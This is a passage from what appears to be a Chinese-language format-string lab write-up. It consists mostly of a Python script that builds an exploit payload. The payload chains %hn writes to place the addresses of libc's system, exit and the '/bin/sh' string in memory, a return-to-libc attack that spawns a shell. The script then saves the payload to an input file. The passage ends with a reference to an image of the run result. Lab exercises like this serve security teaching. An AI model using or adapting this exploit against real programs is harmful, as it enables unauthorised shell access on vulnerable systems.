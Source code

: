```python
payload += ("abcd").encode('latin-1')
payload += (addr + 2).to_bytes(4,byteorder='little')  # high 2 bytes of system address
payload += ("abcd").encode('latin-1')
payload += (addr).to_bytes(4,byteorder='little')      # low 2 bytes of system address

# system address : 0x0004c800 + 0xf7c00000 = 0xf7c4c800
# exit address   : 0x0003bc90 + 0xf7c00000 = 0xf7c3bc90
# /bin/sh address: 0x001b5faa + 0xf7c00000 = 0xf7db5faa

# Construct the format string
offset1 = 0xf7db  - len(payload) - 15*8
offset2 = 0x15faa - 0xf7db
offset3 = 0x1f7c3 - 0x15faa
offset4 = 0x2bc90 - 0x1f7c3
offset5 = 0x2f7c4 - 0x2bc90
offset6 = 0x3c800 - 0x2f7c4
payload += ("%.8x" * 15 +
    "%.{}x".format(offset1) + "%hn" +
    "%.{}x".format(offset2) + "%hn" +
    "%.{}x".format(offset3) + "%hn" +
    "%.{}x".format(offset4) + "%hn" +
    "%.{}x".format(offset5) + "%hn" +
    "%.{}x".format(offset6) + "%hn").encode('latin-1')
# Write the payload to input
with open("input", "wb") as f:
    f.write(payload)
```

运行结果

![image-20230520085548558](assets/image-20230520085548558.png)

